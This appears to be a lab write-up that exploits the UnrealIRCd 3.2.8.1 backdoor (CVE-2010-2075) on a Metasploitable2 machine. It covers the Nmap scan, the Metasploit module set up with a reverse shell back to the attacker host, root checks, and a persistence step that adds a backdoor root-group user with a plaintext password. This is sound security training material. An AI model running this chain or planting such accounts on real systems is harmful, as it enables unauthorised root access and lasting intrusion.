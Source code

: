 # Exploiting UnrealIRCd 3.2.8.1 Backdoor (CVE-2010-2075)

UnrealIRCd 3.2.8.1 is a widely used IRC daemon that was discovered to have a backdoor vulnerability allowing remote attackers to execute arbitrary commands without authentication. This backdoor was introduced maliciously into the source code, affecting many deployments globally.

In this lab, we will exploit the UnrealIRCd backdoor on the Metasploitable2 target machine to gain unauthorized remote shell access. Successfully exploiting this vulnerability demonstrates the risks of using compromised or outdated software and the importance of patch management.

We will begin by verifying the service and version with Nmap, then use Metasploit’s `unreal_ircd_3281_backdoor` module to obtain a root shell, and finally confirm our access by interacting with the target system.

## 1. Network Configuration

* **Metasploitable2 (Target IP):** `192.168.100.10`
* **Kali Linux (Attacker IPs):**
    * `192.168.100.5` (for attacking Metasploitable2)
    * `172.24.129.21` (for SSH access)

## 2. Exploitation Steps

### 2.1: Service Enumeration (Nmap Scan)

* **Objective:** Confirm the presence and version of the UnrealIRCd service on the target machine to verify it is vulnerable. Port 6667 is the default IRC port where UnrealIRCd typically runs.

* **Command Executed:**
    ```bash
    sudo nmap -sV -p 6667 192.168.100.10
    ```

* **Results:**
    The Nmap scan confirmed that port `6667` was open on `192.168.100.10`. Crucially, the service running on this port was identified as **UnrealIRCd 3.2.8.1**, which is the specific vulnerable version targeted by this exploit.
    ![Nmap Scan Result](images/Scan.png) 

### 2.2: Metasploit Exploit Search

* **Objective:** Launch Metasploit and search for available exploits related to UnrealIRCd.

* **Commands Executed:**
    ```bash
    msfconsole
    search unrealircd
    ```

* **Results:**
    The search returned the module `exploit/unix/irc/unreal_ircd_3281_backdoor`, which directly targets a backdoor vulnerability in UnrealIRCd versions 3.2.8.1. This exploit allows remote code execution by connecting to the IRC service and sending a specially crafted payload.
    ![Metasploit Search Result](images/Search.png)

### 2.3: Configure and Execute the Exploit

* **Objective:** Configure the exploit module to target `192.168.100.10` and set up a reverse shell payload to gain access to the system.

* **Commands Executed:**
    ```bash
    use exploit/unix/irc/unreal_ircd_3281_backdoor
    set PAYLOAD cmd/unix/reverse
    set RHOSTS 192.168.100.10
    set LHOST 192.168.100.5
    set LPORT 4444
    run
    ```

* **Results:**
    The exploit successfully initiated a reverse TCP handler on `192.168.100.5:4444`, and a command shell session was opened (`192.168.100.5:4444 -> 192.168.100.10:xxxxx`). This confirms successful remote code execution.
    ![Exploit Run Result](images/Exploit.png) 

### 2.4: Verify Shell Access and Privileges

* **Objective:** Confirm successful remote shell access and identify the privilege level obtained.

* **Commands Executed (in the newly obtained shell):**
    ```bash
    whoami
    id
    ```

* **Results:**
    The `whoami` command returned `root`, and the `id` command confirmed `uid=0(root) gid=0(root)`. This verified that root-level access was successfully achieved on the Metasploitable2 system.

![Root Access Proof](images/whoami.png) 
### 2.5: Establish Persistence by Adding a Backdoor User

* **Objective:** Create a new user account with root privileges on Metasploitable2, allowing for future authenticated access even if the initial exploit vector is mitigated.

* **Commands Executed (in the root shell):**
    ```bash
    useradd -m -g root -s /bin/bash bdnoah
    echo "bdnoah:bdpass" | chpasswd
    ```

* **Verify the user creation and privileges:**
    ```bash
    cat /etc/passwd | grep bdnoah
    ```

* **Results:**
    The `useradd` command successfully created the `bdnoah` user with its home directory and assigned it to the `root` group. The `chpasswd` command set its password. Verification via `cat /etc/passwd` confirmed the user `bdnoah` with `GID=0` (root privileges).

![New User Creation](images/newuser.png)

## 3. Conclusion

This exercise successfully demonstrated the exploitation of the UnrealIRCd 3.2.8.1 backdoor (CVE-2010-2075) on the Metasploitable2 target system. A remote command shell with root-level privileges was obtained. This root-level access was leveraged to establish persistence by creating a new user account with root privileges.

This lab highlights the critical importance of timely patch management and the severe risks associated with running outdated or compromised software. Unpatched vulnerabilities, even in seemingly obscure services like IRC daemons, can provide attackers with full administrative control over a system, leading to significant security breaches.